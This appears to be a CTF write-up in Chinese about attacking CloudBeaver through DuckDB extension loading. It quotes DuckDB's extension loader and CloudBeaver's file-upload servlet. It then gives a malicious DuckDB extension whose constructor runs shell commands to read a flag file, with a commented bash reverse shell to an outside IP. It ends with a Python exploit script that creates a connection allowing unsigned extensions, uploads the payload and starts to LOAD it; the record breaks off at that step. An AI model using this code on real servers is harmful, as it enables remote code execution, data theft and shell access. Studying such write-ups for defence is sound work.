#include "mbedtls_wrapper.hpp"

#ifndef DUCKDB_NO_THREADS
#include <thread>
#endif // DUCKDB_NO_THREADS

#ifdef WASM_LOADABLE_EXTENSIONS
#include <emscripten.h>
#endif

namespace duckdb {

//===--------------------------------------------------------------------===//
// Extension C API
//===--------------------------------------------------------------------===//

//! State that is kept during the load phase of a C API extension
struct DuckDBExtensionLoadState {
 explicit DuckDBExtensionLoadState(DatabaseInstance &db_p, ExtensionInitResult &init_result_p)
     : db(db_p), init_result(init_result_p), database_data(nullptr) {
 }

 //! Create a DuckDBExtensionLoadState reference from a C API opaque pointer
 static DuckDBExtensionLoadState &Get(duckdb_extension_info info) {
  D_ASSERT(info);
  return *reinterpret_cast<duckdb::DuckDBExtensionLoadState *>(info);
 }

 //! Convert to an opaque C API pointer
 duckdb_extension_info ToCStruct() {
  return reinterpret_cast<duckdb_extension_info>(this);
 }

 //! Ref to the database being loaded
 DatabaseInstance &db;

 //! The init result from initializing the extension
 ExtensionInitResult &init_result;

 //! This is the duckdb_database struct that will be passed to the extension during initialization. Note that the
 //! extension does not need to free it.
 unique_ptr<DatabaseWrapper> database_data;

 //! The function pointer struct passed to the extension. The extension is expected to copy this struct during
 //! initialization
 duckdb_ext_api_v1 api_struct;

 //! Error handling
 bool has_error = false;
 //! The stored error from the loading process
 ErrorData error_data;
};

//! Contains the callbacks that are passed to CAPI extensions to allow initialization
struct ExtensionAccess {
 //! Create the struct of function pointers to pass to the extension for initialization
 static duckdb_extension_access CreateAccessStruct() {
  return {SetError, GetDatabase, GetAPI};
 }

 //! Called by the extension to indicate failure to initialize the extension
 static void SetError(duckdb_extension_info info, const char *error) {
  auto &load_state = DuckDBExtensionLoadState::Get(info);

  load_state.has_error = true;
  load_state.error_data =
      error ? ErrorData(error)
            : ErrorData(ExceptionType::UNKNOWN_TYPE, "Extension has indicated an error occurred during "
                                                     "initialization, but did not set an error message.");
 }

 //! Called by the extension get a pointer to the database that is loading it
 static duckdb_database *GetDatabase(duckdb_extension_info info) {
  auto &load_state = DuckDBExtensionLoadState::Get(info);

  try {
   // Create the duckdb_database
   load_state.database_data = make_uniq<DatabaseWrapper>();
   load_state.database_data->database = make_shared_ptr<DuckDB>(load_state.db);
   return reinterpret_cast<duckdb_database *>(load_state.database_data.get());
  } catch (std::exception &ex) {
   load_state.has_error = true;
   load_state.error_data = ErrorData(ex);
   return nullptr;
  } catch (...) {
   load_state.has_error = true;
   load_state.error_data =
       ErrorData(ExceptionType::UNKNOWN_TYPE, "Unknown error in GetDatabase when trying to load extension!");
   return nullptr;
  }
 }

 //! Called by the extension get a pointer the correctly versioned extension C API struct.
 static const void *GetAPI(duckdb_extension_info info, const char *version) {
  string version_string = version;
  auto &load_state = DuckDBExtensionLoadState::Get(info);

  if (load_state.init_result.abi_type == ExtensionABIType::C_STRUCT) {
   idx_t major, minor, patch;
   auto parsed = VersioningUtils::ParseSemver(version_string, major, minor, patch);

   if (!parsed || !VersioningUtils::IsSupportedCAPIVersion(major, minor, patch)) {
    load_state.has_error = true;
    load_state.error_data = ErrorData(
        ExceptionType::UNKNOWN_TYPE,
        "Unsupported C CAPI version detected during extension initialization: " + string(version));
    return nullptr;
   }
  } else if (load_state.init_result.abi_type == ExtensionABIType::C_STRUCT_UNSTABLE) {
   // NOTE: we currently don't check anything here: the version of extensions of ABI type C_STRUCT_UNSTABLE is
   // ignored because C_STRUCT_UNSTABLE extensions are tied 1:1 to duckdb verions meaning they will always
   // receive the whole function pointer struct
  } else {
   load_state.has_error = true;
   load_state.error_data =
       ErrorData(ExceptionType::UNKNOWN_TYPE,
                 StringUtil::Format("Unknown ABI Type of value '%d' found when loading extension '%s'",
                                    static_cast<uint8_t>(load_state.init_result.abi_type),
                                    load_state.init_result.filename));
   return nullptr;
  }

  load_state.api_struct = load_state.db.GetExtensionAPIV1();
  return &load_state.api_struct;
 }
};

//===--------------------------------------------------------------------===//
// Load External Extension
//===--------------------------------------------------------------------===//
#ifndef DUCKDB_DISABLE_EXTENSION_LOAD
// The C++ init function
typedef void (*ext_init_fun_t)(ExtensionLoader &);
// The C init function
typedef bool (*ext_init_c_api_fun_t)(duckdb_extension_info info, duckdb_extension_access *access);

template <class T>
static T LoadFunctionFromDLL(void *dll, const string &function_name, const string &filename) {
 auto function = dlsym(dll, function_name.c_str());
 if (!function) {
  throw IOException("File \"%s\" did not contain function \"%s\": %s", filename, function_name, GetDLError());
 }
 return (T)function;
}
#endif

template <class T>
static T TryLoadFunctionFromDLL(void *dll, const string &function_name, const string &filename) {
 auto function = dlsym(dll, function_name.c_str());
 if (!function) {
  return nullptr;
 }
 return (T)function;
}

static void ComputeSHA256String(const string &to_hash, string *res) {
 // Invoke MbedTls function to actually compute sha256
 *res = duckdb_mbedtls::MbedTlsWrapper::ComputeSha256Hash(to_hash);
}

static void ComputeSHA256FileSegment(FileHandle *handle, const idx_t start, const idx_t end, string *res) {
 idx_t iter = start;
 const idx_t segment_size = 1024ULL * 8ULL;

 duckdb_mbedtls::MbedTlsWrapper::SHA256State state;

 string to_hash;
 while (iter < end) {
  idx_t len = std::min(end - iter, segment_size);
  to_hash.resize(len);
  handle->Read((void *)to_hash.data(), len, iter);

  state.AddString(to_hash);

  iter += segment_size;
 }

 *res = state.Finalize();
}

static string FilterZeroAtEnd(string s) {
 while (!s.empty() && s.back() == '\0') {
  s.pop_back();
 }
 return s;
}

ParsedExtensionMetaData ExtensionHelper::ParseExtensionMetaData(const char *metadata) noexcept {
 ParsedExtensionMetaData result;

 vector<string> metadata_field;
 for (idx_t i = 0; i < 8; i++) {
  string field = string(metadata + i * 32, 32);
  metadata_field.emplace_back(field);
 }

 std::reverse(metadata_field.begin(), metadata_field.end());

 // Fetch the magic value and early out if this is invalid: the rest will just be bogus
 result.magic_value = FilterZeroAtEnd(metadata_field[0]);
 if (!result.AppearsValid()) {
  return result;
 }

 result.platform = FilterZeroAtEnd(metadata_field[1]);

 result.extension_version = FilterZeroAtEnd(metadata_field[3]);

 auto extension_abi_metadata = FilterZeroAtEnd(metadata_field[4]);

 if (extension_abi_metadata == "C_STRUCT") {
  result.abi_type = ExtensionABIType::C_STRUCT;
  result.duckdb_capi_version = FilterZeroAtEnd(metadata_field[2]);
 } else if (extension_abi_metadata == "C_STRUCT_UNSTABLE") {
  result.abi_type = ExtensionABIType::C_STRUCT_UNSTABLE;
  result.duckdb_version = FilterZeroAtEnd(metadata_field[2]);
 } else if (extension_abi_metadata == "CPP" || extension_abi_metadata.empty()) {
  result.abi_type = ExtensionABIType::CPP;
  result.duckdb_version = FilterZeroAtEnd(metadata_field[2]);
 } else {
  result.abi_type = ExtensionABIType::UNKNOWN;
  result.duckdb_version = "unknown";
  result.extension_abi_metadata = extension_abi_metadata;
 }

 result.signature = string(metadata, ParsedExtensionMetaData::FOOTER_SIZE - ParsedExtensionMetaData::SIGNATURE_SIZE);
 return result;
}

ParsedExtensionMetaData ExtensionHelper::ParseExtensionMetaData(FileHandle &handle) {
 const string engine_version = string(ExtensionHelper::GetVersionDirectoryName());
 const string engine_platform = string(DuckDB::Platform());

 string metadata_segment;
 metadata_segment.resize(ParsedExtensionMetaData::FOOTER_SIZE);

 if (handle.GetFileSize() < ParsedExtensionMetaData::FOOTER_SIZE) {
  throw InvalidInputException(
      "File '%s' is not a DuckDB extension. Valid DuckDB extensions must be at least %llu bytes", handle.path,
      ParsedExtensionMetaData::FOOTER_SIZE);
 }

 handle.Read((void *)metadata_segment.data(), metadata_segment.size(),
             handle.GetFileSize() - ParsedExtensionMetaData::FOOTER_SIZE);

 return ParseExtensionMetaData(metadata_segment.data());
}

bool ExtensionHelper::CheckExtensionSignature(FileHandle &handle, ParsedExtensionMetaData &parsed_metadata,
                                              const bool allow_community_extensions) {
 auto signature_offset = handle.GetFileSize() - ParsedExtensionMetaData::SIGNATURE_SIZE;

 const idx_t maxLenChunks = 1024ULL * 1024ULL;
 const idx_t numChunks = (signature_offset + maxLenChunks - 1) / maxLenChunks;
 vector<string> hash_chunks(numChunks);
 vector<idx_t> splits(numChunks + 1);

 for (idx_t i = 0; i < numChunks; i++) {
  splits[i] = maxLenChunks * i;
 }
 splits.back() = signature_offset;

#ifndef DUCKDB_NO_THREADS
 vector<std::thread> threads;
 threads.reserve(numChunks);
 for (idx_t i = 0; i < numChunks; i++) {
  threads.emplace_back(ComputeSHA256FileSegment, &handle, splits[i], splits[i + 1], &hash_chunks[i]);
 }

 for (auto &thread : threads) {
  thread.join();
 }
#else
 for (idx_t i = 0; i < numChunks; i++) {
  ComputeSHA256FileSegment(&handle, splits[i], splits[i + 1], &hash_chunks[i]);
 }
#endif // DUCKDB_NO_THREADS

 string hash_concatenation;
 hash_concatenation.reserve(32 * numChunks); // 256 bits -> 32 bytes per chunk

 for (auto &hash_chunk : hash_chunks) {
  hash_concatenation += hash_chunk;
 }

 string two_level_hash;
 ComputeSHA256String(hash_concatenation, &two_level_hash);

 // TODO maybe we should do a stream read / hash update here
 handle.Read((void *)parsed_metadata.signature.data(), parsed_metadata.signature.size(), signature_offset);

 for (auto &key : ExtensionHelper::GetPublicKeys(allow_community_extensions)) {
  if (duckdb_mbedtls::MbedTlsWrapper::IsValidSha256Signature(key, parsed_metadata.signature, two_level_hash)) {
   return true;
   break;
  }
 }

 return false;
}

bool ExtensionHelper::TryInitialLoad(DatabaseInstance &db, FileSystem &fs, const string &extension,
                                     ExtensionInitResult &result, string &error) {
#ifdef DUCKDB_DISABLE_EXTENSION_LOAD
 throw PermissionException("Loading external extensions is disabled through a compile time flag");
#else
 if (!db.config.options.enable_external_access) {
  throw PermissionException("Loading external extensions is disabled through configuration");
 }
 auto filename = fs.ConvertSeparators(extension);

 bool direct_load;

 // shorthand case
 if (!ExtensionHelper::IsFullPath(extension)) {
  direct_load = false;
  string extension_name = ApplyExtensionAlias(extension);
#ifdef WASM_LOADABLE_EXTENSIONS
  string url_template = ExtensionUrlTemplate(&config, "");
  string url = ExtensionFinalizeUrlTemplate(url_template, extension_name);

  char *str = (char *)EM_ASM_PTR(
      {
       var jsString = ((typeof runtime == 'object') && runtime && (typeof runtime.whereToLoad == 'function') &&
                       runtime.whereToLoad)
                          ? runtime.whereToLoad(UTF8ToString($0))
                          : (UTF8ToString($1));
       var lengthBytes = lengthBytesUTF8(jsString) + 1;
       // 'jsString.length' would return the length of the string as UTF-16
       // units, but Emscripten C strings operate as UTF-8.
       var stringOnWasmHeap = _malloc(lengthBytes);
       stringToUTF8(jsString, stringOnWasmHeap, lengthBytes);
       return stringOnWasmHeap;
      },
      filename.c_str(), url.c_str());
  string address(str);
  free(str);

  filename = address;
#else

  // Local function to process local path
  auto ComputeLocalExtensionPath = [&fs](const string &base_path, const string &extension_name) -> string {
   // convert random separators to platform-canonic
   string local_path = fs.ConvertSeparators(base_path);
   // expand ~ in extension directory
   local_path = fs.ExpandPath(local_path);
   auto path_components = PathComponents();
   for (auto &path_ele : path_components) {
    local_path = fs.JoinPath(local_path, path_ele);
   }
   return fs.JoinPath(local_path, extension_name + ".duckdb_extension");
  };

  // Collect all directories to search for extensions
  vector<string> search_directories;
  if (!db.config.options.extension_directory.empty()) {
   search_directories.push_back(db.config.options.extension_directory);
  }

  if (!db.config.options.extension_directories.empty()) {
   // Add all configured extension directories
   for (const auto &dir : db.config.options.extension_directories) {
    search_directories.push_back(dir);
   }
  }

  // Add default extension directory if no custom directories configured
  if (search_directories.empty()) {
   for (const auto &path : ExtensionHelper::DefaultExtensionFolders(fs)) {
    search_directories.push_back(path);
   }
  }

  // Try each directory in sequence until extension is found
  bool found = false;
  for (const auto &directory : search_directories) {
   filename = ComputeLocalExtensionPath(directory, extension_name);
   if (fs.FileExists(filename)) {
    found = true;
    break;
   }
  }

  // If not found in any directory, use the first directory for error reporting
  if (!found) {
   filename = ComputeLocalExtensionPath(search_directories[0], extension_name);
  }
#endif
 } else {
  direct_load = true;
  filename = fs.ExpandPath(filename);
 }
 if (!fs.FileExists(filename)) {
  string message;
  bool exact_match = ExtensionHelper::CreateSuggestions(extension, message);
  if (exact_match) {
   message += "\nInstall it first using \"INSTALL " + extension + "\".";
  }
  error = StringUtil::Format("Extension \"%s\" not found.\n%s", filename, message);
  return false;
 }

 auto handle = fs.OpenFile(filename, FileFlags::FILE_FLAGS_READ);

 // Parse the extension metadata from the extension binary
 auto parsed_metadata = ParseExtensionMetaData(*handle);

 auto metadata_mismatch_error = parsed_metadata.GetInvalidMetadataError();

 if (!metadata_mismatch_error.empty()) {
  metadata_mismatch_error = StringUtil::Format("Failed to load '%s', %s", extension, metadata_mismatch_error);
 }

 if (!db.config.options.allow_unsigned_extensions) {
  bool signature_valid;
  if (parsed_metadata.AppearsValid()) {
   signature_valid =
       CheckExtensionSignature(*handle, parsed_metadata, db.config.options.allow_community_extensions);
  } else {
   signature_valid = false;
  }

  if (!metadata_mismatch_error.empty()) {
   throw InvalidInputException(metadata_mismatch_error);
  }

  if (!signature_valid) {
   throw IOException(db.config.error_manager->FormatException(ErrorType::UNSIGNED_EXTENSION, filename));
  }
 } else if (!DBConfig::GetSetting<AllowExtensionsMetadataMismatchSetting>(db)) {
  if (!metadata_mismatch_error.empty()) {
   // Unsigned extensions AND configuration allowing n, loading allowed, mainly for
   // debugging purposes
   throw InvalidInputException(metadata_mismatch_error);
  }
 }

 auto filebase = fs.ExtractBaseName(filename);

#ifdef WASM_LOADABLE_EXTENSIONS
 EM_ASM(
     {
      // Next few lines should argubly in separate JavaScript-land function call
      // TODO: move them out / have them configurable
      const xhr = new XMLHttpRequest();
      xhr.open("GET", UTF8ToString($0), false);
      xhr.responseType = "arraybuffer";
      xhr.send(null);
      var uInt8Array = xhr.response;
      WebAssembly.validate(uInt8Array);
      console.log('Loading extension ', UTF8ToString($1));

      // Here we add the uInt8Array to Emscripten's filesystem, for it to be found by dlopen
      FS.writeFile(UTF8ToString($1), new Uint8Array(uInt8Array));
     },
     filename.c_str(), filebase.c_str());
 auto dopen_from = filebase;
#else
 auto dopen_from = filename;
#endif

 auto lib_hdl = dlopen(dopen_from.c_str(), RTLD_NOW | RTLD_LOCAL);
 if (!lib_hdl) {
  throw IOException("Extension \"%s\" could not be loaded: %s", filename, GetDLError());
 }

 auto lowercase_extension_name = StringUtil::Lower(filebase);

 // Initialize the ExtensionInitResult
 result.filebase = lowercase_extension_name;
 result.filename = filename;
 result.lib_hdl = lib_hdl;
 result.abi_type = parsed_metadata.abi_type;

 if (!direct_load) {
  auto info_file_name = filename + ".info";

  result.install_info = ExtensionInstallInfo::TryReadInfoFile(fs, info_file_name, lowercase_extension_name);

  if (result.install_info->mode == ExtensionInstallMode::UNKNOWN) {
   // The info file was missing, we just set the version, since we have it from the parsed footer
   result.install_info->version = parsed_metadata.extension_version;
  }

  if (result.install_info->version != parsed_metadata.extension_version) {
   throw IOException("Metadata mismatch detected when loading extension '%s'\nPlease try reinstalling the "
                     "extension using `FORCE INSTALL '%s'`",
                     filename, extension);
  }
 } else {
  result.install_info = make_uniq<ExtensionInstallInfo>();
  result.install_info->mode = ExtensionInstallMode::NOT_INSTALLED;
  result.install_info->full_path = filename;
  result.install_info->version = parsed_metadata.extension_version;
 }

 return true;
#endif
}

ExtensionInitResult ExtensionHelper::InitialLoad(DatabaseInstance &db, FileSystem &fs, const string &extension) {
 string error;
 ExtensionInitResult result;
 if (!TryInitialLoad(db, fs, extension, result, error)) {
  auto &config = DBConfig::GetConfig(db);
  if (!config.options.autoinstall_known_extensions || !ExtensionHelper::AllowAutoInstall(extension)) {
   throw IOException(error);
  }
  // the extension load failed - try installing the extension
  ExtensionInstallOptions options;
  ExtensionHelper::InstallExtension(db, fs, extension, options);
  // try loading again
  if (!TryInitialLoad(db, fs, extension, result, error)) {
   throw IOException(error);
  }
 }
 return result;
}

bool ExtensionHelper::IsFullPath(const string &extension) {
 return StringUtil::Contains(extension, ".") || StringUtil::Contains(extension, "/") ||
        StringUtil::Contains(extension, "\\");
}

string ExtensionHelper::GetExtensionName(const string &original_name) {
 auto extension = StringUtil::Lower(original_name);
 if (!IsFullPath(extension)) {
  return ExtensionHelper::ApplyExtensionAlias(extension);
 }
 auto splits = StringUtil::Split(StringUtil::Replace(extension, "\\", "/"), '/');
 if (splits.empty()) {
  return ExtensionHelper::ApplyExtensionAlias(extension);
 }
 splits = StringUtil::Split(splits.back(), '.');
 if (splits.empty()) {
  return ExtensionHelper::ApplyExtensionAlias(extension);
 }
 return ExtensionHelper::ApplyExtensionAlias(splits.front());
}

void ExtensionHelper::LoadExternalExtension(DatabaseInstance &db, FileSystem &fs, const string &extension) {
 auto &manager = ExtensionManager::Get(db);
 auto info = manager.BeginLoad(extension);
 if (!info) {
  return;
 }
 try {
  LoadExternalExtensionInternal(db, fs, extension, *info);
 } catch (std::exception &ex) {
  ErrorData error(ex);
  info->LoadFail(error);
  throw;
 }
}

void ExtensionHelper::LoadExternalExtensionInternal(DatabaseInstance &db, FileSystem &fs, const string &extension,
                                                    ExtensionActiveLoad &info) {
#ifdef DUCKDB_DISABLE_EXTENSION_LOAD
 throw PermissionException("Loading external extensions is disabled through a compile time flag");
#else
 auto extension_init_result = InitialLoad(db, fs, extension);

 // C++ ABI
 if (extension_init_result.abi_type == ExtensionABIType::CPP) {
  auto init_fun_name = extension_init_result.filebase + "_duckdb_cpp_init";
  ext_init_fun_t init_fun = TryLoadFunctionFromDLL<ext_init_fun_t>(extension_init_result.lib_hdl, init_fun_name,
                                                                   extension_init_result.filename);
  if (!init_fun) {
   throw IOException("Extension '%s' did not contain the expected entrypoint function '%s'", extension,
                     init_fun_name);
  }

  try {
   ExtensionLoader loader(info);
   (*init_fun)(loader);
   loader.FinalizeLoad();
  } catch (std::exception &e) {
   ErrorData error(e);
   throw InvalidInputException("Initialization function \"%s\" from file \"%s\" threw an exception: \"%s\"",
                               init_fun_name, extension_init_result.filename, error.RawMessage());
  }

  D_ASSERT(extension_init_result.install_info);

  info.FinishLoad(*extension_init_result.install_info);
  return;
 }

 // C ABI
 if (extension_init_result.abi_type == ExtensionABIType::C_STRUCT ||
     extension_init_result.abi_type == ExtensionABIType::C_STRUCT_UNSTABLE) {
  auto init_fun_name = extension_init_result.filebase + "_init_c_api";
  ext_init_c_api_fun_t init_fun_capi = TryLoadFunctionFromDLL<ext_init_c_api_fun_t>(
      extension_init_result.lib_hdl, init_fun_name, extension_init_result.filename);

  if (!init_fun_capi) {
   throw IOException("File \"%s\" did not contain function \"%s\": %s", extension_init_result.filename,
                     init_fun_name, GetDLError());
  }
  // Create the load state
  DuckDBExtensionLoadState load_state(db, extension_init_result);

  auto access = ExtensionAccess::CreateAccessStruct();
  auto result = (*init_fun_capi)(load_state.ToCStruct(), &access);

  // Throw any error that the extension might have encountered
  if (load_state.has_error) {
   load_state.error_data.Throw("An error was thrown during initialization of the extension '" + extension +
                               "': ");
  }

  // Extensions are expected to either set an error or return true indicating successful initialization
  if (result == false) {
   throw FatalException(
       "Extension '%s' failed to initialize but did not return an error. This indicates an "
       "error in the extension: C API extensions should return a boolean `true` to indicate successful "
       "initialization. "
       "This means that the Extension may be partially initialized resulting in an inconsistent state of "
       "DuckDB.",
       extension);
  }

  D_ASSERT(extension_init_result.install_info);

  info.FinishLoad(*extension_init_result.install_info);
  return;
 }

 throw IOException("Unknown ABI type of value '%s' for extension '%s'",
                   static_cast<uint8_t>(extension_init_result.abi_type), extension);
#endif
}

void ExtensionHelper::LoadExternalExtension(ClientContext &context, const string &extension) {
 LoadExternalExtension(DatabaseInstance::GetDatabase(context), FileSystem::GetFileSystem(context), extension);
}

string ExtensionHelper::ExtractExtensionPrefixFromPath(const string &path) {
 auto first_colon = path.find(':');
 if (first_colon == string::npos || first_colon < 2) { // needs to be at least two characters because windows c: ...
  return "";
 }
 auto extension = path.substr(0, first_colon);

 if (path.substr(first_colon, 3) == "://") {
  // these are not extensions
  return "";
 }

 D_ASSERT(extension.size() > 1);
 // needs to be alphanumeric
 for (auto &ch : extension) {
  if (!isalnum(ch) && ch != '_') {
   return "";
  }
 }
 return extension;
}

} // namespace duckdb
```

可以通过 `__attribute__ ((__constructor__))` 让函数在 `dlopen` 时立即执行。

```cpp
extern "C" {
    #ifndef _WIN32
    __attribute__ ((__constructor__)) void preload (void){
        // 这里的命令会在 LOAD 语句执行的瞬间运行
        // 无论后续是否报错 "entrypoint not found"
    if (fork() == 0) {
        // 子进程
        unsetenv("LD_PRELOAD");
        system("find /etc/passwd -exec cat /root/flag '{}' ';' > /tmp/result");
        exit(0);
    }
        // 你甚至可以直接在这里反弹 shell，不用等 SQL 执行
        // system("bash -c 'bash -i >& /dev/tcp/1.2.3.4/8888 0>&1'");
    }
    #endif
}
```

### 上传扩展

`/api/resultset/blob/` 路由提供文件上传接口，但文件名不可控。可以通过该接口上传 DuckDB 扩展。

```java
/*
 * DBeaver - Universal Database Manager
 * Copyright (C) 2010-2024 DBeaver Corp and others
 *
 * Licensed under the Apache License, Version 2.0 (the "License");
 * you may not use this file except in compliance with the License.
 * You may obtain a copy of the License at
 *
 *     http://www.apache.org/licenses/LICENSE-2.0
 *
 * Unless required by applicable law or agreed to in writing, software
 * distributed under the License is distributed on an "AS IS" BASIS,
 * WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
 * See the License for the specific language governing permissions and
 * limitations under the License.
 */
package io.cloudbeaver.service.sql;

import com.google.gson.Gson;
import com.google.gson.GsonBuilder;
import com.google.gson.reflect.TypeToken;
import io.cloudbeaver.DBWConstants;
import io.cloudbeaver.DBWebException;
import io.cloudbeaver.model.app.ServletApplication;
import io.cloudbeaver.model.session.WebSession;
import io.cloudbeaver.server.WebAppUtils;
import io.cloudbeaver.service.WebServiceServletBase;
import jakarta.servlet.MultipartConfigElement;
import jakarta.servlet.ServletException;
import jakarta.servlet.annotation.MultipartConfig;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;
import org.eclipse.jetty.ee10.servlet.ServletContextRequest;
import org.jkiss.dbeaver.DBException;
import org.jkiss.dbeaver.Log;
import org.jkiss.dbeaver.model.data.json.JSONUtils;
import org.jkiss.dbeaver.runtime.DBWorkbench;

import java.io.IOException;
import java.lang.reflect.Type;
import java.nio.file.Files;
import java.nio.file.Path;
import java.util.Map;
import java.util.UUID;

@MultipartConfig
public class WebSQLFileLoaderServlet extends WebServiceServletBase {

    private static final Log log = Log.getLog(WebSQLFileLoaderServlet.class);

    private static final Type MAP_STRING_OBJECT_TYPE = new TypeToken<Map<String, Object>>() {
    }.getType();
    private static final String REQUEST_PARAM_VARIABLES = "variables";

    private static final String TEMP_FILE_FOLDER = "temp-sql-upload-files";

    private static final String FILE_ID = "fileId";

    private static final Gson gson = new GsonBuilder()
            .serializeNulls()
            .setPrettyPrinting()
            .create();

    public WebSQLFileLoaderServlet(ServletApplication application) {
        super(application);
    }

    @Override
    protected void processServiceRequest(
            WebSession session,
            HttpServletRequest request,
            HttpServletResponse response
    ) throws DBException, IOException {
        if (!session.isAuthorizedInSecurityManager()) {
            response.sendError(HttpServletResponse.SC_FORBIDDEN, "Update for users only");
            return;
        }
        if (DBWorkbench.isDistributed() && !session.hasPermission(DBWConstants.PERMISSION_SQL_RESULT_UPDATE)) {
            response.sendError(HttpServletResponse.SC_FORBIDDEN, "Permission denied");
            return;
        }

        if (!"POST".equalsIgnoreCase(request.getMethod())) {
            return;
        }

        Path tempFolder = WebAppUtils.getWebPlatform()
                .getTempFolder(session.getProgressMonitor(), TEMP_FILE_FOLDER)
                .resolve(session.getSessionId());

        MultipartConfigElement multiPartConfig = new MultipartConfigElement(tempFolder.toString());
        request.setAttribute(ServletContextRequest.MULTIPART_CONFIG_ELEMENT, multiPartConfig);

        Map<String, Object> variables = gson.fromJson(request.getParameter(REQUEST_PARAM_VARIABLES), MAP_STRING_OBJECT_TYPE);

        String fileId = JSONUtils.getString(variables, FILE_ID);
        if (fileId == null) {
            throw new DBWebException("File ID not found");
        }
        try {
            // file id must be UUID
            UUID.fromString(fileId);
        } catch (IllegalArgumentException e) {
            throw new DBWebException("File ID is invalid");
        }
        Path file = tempFolder.resolve(fileId);
        try {
            Files.write(file, request.getPart("fileData").getInputStream().readAllBytes());
        } catch (ServletException e) {
            log.error(e.getMessage());
            throw new DBWebException(e.getMessage());
        }
    }
}
```

### 完整利用脚本

将上述步骤组合为利用脚本：

```python
import requests
import json
import uuid
import time
import sys
import urllib3

# ==========================================
# 全局配置
# ==========================================
USE_PROXY = True
PROXY_ADDR = "http://127.0.0.1:8083"
TARGET_URL = "http://localhost:12225"
LOCAL_EXTENSION_FILE = "quack.duckdb_extension"

# ==========================================
# 内部常量
# ==========================================
GQL_API = f"{TARGET_URL}/api/gql"
UPLOAD_API = f"{TARGET_URL}/api/resultset/blob/"

HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36",
    "Accept": "application/graphql-response+json, application/json",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Content-Type": "application/json",
    "Origin": TARGET_URL,
    "Referer": f"{TARGET_URL}/"
}

def main():
    s = requests.Session()

    # 0. 代理设置
    if USE_PROXY:
        print(f"[*] Proxy ENABLED: {PROXY_ADDR}")
        s.proxies.update({"http": PROXY_ADDR, "https": PROXY_ADDR})
        s.verify = False
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    # ==========================================
    # 1. 初始化 Session
    # ==========================================
    print("[*] Step 1: Initialize Session...")
    query_server_config = {
        "query": "\n    query serverConfig {\n  serverConfig {\n    ...ServerConfig\n  }\n}\n    \n    fragment ServerConfig on ServerConfig {\n  name\n  version\n  workspaceId\n}\n    ",
        "operationName": "serverConfig"
    }

    try:
        r = s.post(GQL_API, json=query_server_config, headers=HEADERS)

        session_id = s.cookies.get("cb-session-id")
        if not session_id:
            if 'Set-Cookie' in r.headers:
                import re
                match = re.search(r'cb-session-id=([^;]+)', r.headers['Set-Cookie'])
                if match:
                    session_id = match.group(1)

        if not session_id:
            print("[-] Failed to get cb-session-id")
            return

        print(f"[+] Session ID: {session_id}")
        HEADERS['Cookie'] = f"cb-session-id={session_id}"
        s.headers.update(HEADERS)

    except Exception as e:
        print(f"[-] Error initializing: {e}")
        return

    # ==========================================
    # 1.5 激活 Session
    # ==========================================
    print("[*] Step 1.5: Activating Session...")
    mutation_open_session = {
        "query": "\n    mutation openSession($defaultLocale: String) {\n  session: openSession(defaultLocale: $defaultLocale) {\n    valid\n  }\n}\n    ",
        "variables": {"defaultLocale": "en"},
        "operationName": "openSession"
    }
    r = s.post(GQL_API, json=mutation_open_session, headers=HEADERS)

    # ==========================================
    # 2. 创建 DuckDB 连接
    # ==========================================
    print("[*] Step 2: Creating DuckDB Connection...")
    db_path = f"/tmp/{uuid.uuid4().hex}"

    mutation_create_connection = {
        "query": "\n    mutation createConnection($projectId: ID!, $config: ConnectionConfig!) {\n  connection: createConnection(projectId: $projectId, config: $config) {\n    id\n  }\n}\n    ",
        "variables": {
            "projectId": "anonymous",
            "config": {
                "configurationType": "URL",
                "credentials": {"userPassword": ""},
                "driverId": "generic:duckdb_jdbc",
                "name": "DuckDB Exploit",
                "url": f"jdbc:duckdb:{db_path}",
                "properties": {"allow_unsigned_extensions": "true"}
            }
        },
        "operationName": "createConnection"
    }

    r = s.post(GQL_API, json=mutation_create_connection, headers=HEADERS)
    try:
        connection_id = r.json()['data']['connection']['id']
        print(f"[+] Connection ID: {connection_id}")
    except:
        print(f"[-] Failed to create connection: {r.text}")
        return

    # ==========================================
    # 2.5 [核心] 创建 SQL Context
    # ==========================================
    print("[*] Step 2.5: Creating SQL Context (MANDATORY)...")
    mutation_create_context = {
        "query": "\n    mutation sqlContextCreate($connectionId: ID!, $defaultCatalog: String, $defaultSchema: String) {\n  context: sqlContextCreate(connectionId: $connectionId, defaultCatalog: $defaultCatalog, defaultSchema: $defaultSchema) {\n    id\n  }\n}\n    ",
        "variables": {
            "connectionId": connection_id,
            "defaultCatalog": None,
            "defaultSchema": None
        },
        "operationName": "sqlContextCreate"
    }

    r = s.post(GQL_API, json=mutation_create_context, headers=HEADERS)
    try:
        context_id = r.json()['data']['context']['id']
        print(f"[+] SQL Context ID: {context_id}")
    except:
        print(f"[-] Failed to create SQL Context: {r.text}")
        return

    # ==========================================
    # 3. 上传 Payload (手动 Multipart)
    # ==========================================
    print("[*] Step 3: Uploading Payload...")
    file_uuid = str(uuid.uuid4())
    upload_variables = json.dumps({"fileId": file_uuid})

    try:
        with open(LOCAL_EXTENSION_FILE, 'rb') as f:
            file_content = f.read()
    except:
        print(f"[-] File {LOCAL_EXTENSION_FILE} not found.")
        return

    boundary = "----WebKitFormBoundaryCTF"
    body = (
        f"--{boundary}\r\n"
        f'Content-Disposition: form-data; name="variables"\r\n\r\n'
        f"{upload_variables}\r\n"
        f"--{boundary}\r\n"
        f'Content-Disposition: form-data; name="fileData"; filename="exploit.bin"\r\n'
        f"Content-Type: application/octet-stream\r\n\r\n"
    ).encode('utf-8') + file_content + f"\r\n--{boundary}--\r\n".encode('utf-8')

    upload_headers = HEADERS.copy()
    upload_headers['Content-Type'] = f"multipart/form-data; boundary={boundary}"

    r = s.post(UPLOAD_API, data=body, headers=upload_headers)
    if r.status_code != 200:
        print(f"[-] Upload failed: {r.status_code}")
        return

    remote_path = f"/tmp/dbeaver/.work-data/temp-sql-upload-files/{session_id}/{file_uuid}"
    print(f"[+] Remote Path: {remote_path}")

    # ==========================================
    # 4. 执行 Payload (LOAD)
    # ==========================================
    print("[*] Step 4: Executing LOAD (Triggering Exploit)...")
    # 这里我们只管发，不看结果，因为LOAD必然报错
